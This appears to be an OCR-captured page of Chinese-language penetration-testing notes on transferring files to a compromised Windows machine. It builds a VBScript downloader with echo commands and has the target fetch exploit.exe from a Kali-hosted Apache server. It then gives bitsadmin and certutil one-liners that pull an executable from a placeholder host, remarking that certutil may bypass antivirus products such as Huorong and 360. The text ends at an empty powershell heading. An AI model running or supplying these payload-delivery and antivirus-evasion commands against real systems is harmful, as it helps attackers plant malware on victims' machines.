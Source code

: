 
### vbscript

```wget-vbs
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo strFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
攻击机起http服务:
cp exploit.exe /var/www/
service apache2 start

在目标机执行wget-vbs中的命令,会生成wget.vbs
目标机执行:
dir wget.vbs
cscript wget.vbs http://kali-ip/exploit.exe (要下载的文件)exploit.exe(保存成的文件名)


### bitsadmin

系统要求 >= Windows Vista
bitsadmin /transfer down /download /priority normal "http://www.xxx.com/xxx.exe" "F:\1.exe"


### certutil

建议先执行一遍 certutil,再执行下方命令(可能可以绕火绒、360等杀软)
certutil -urlcache -split -f http://www.xxx.com/xxx.exe 1.exe


### powershell
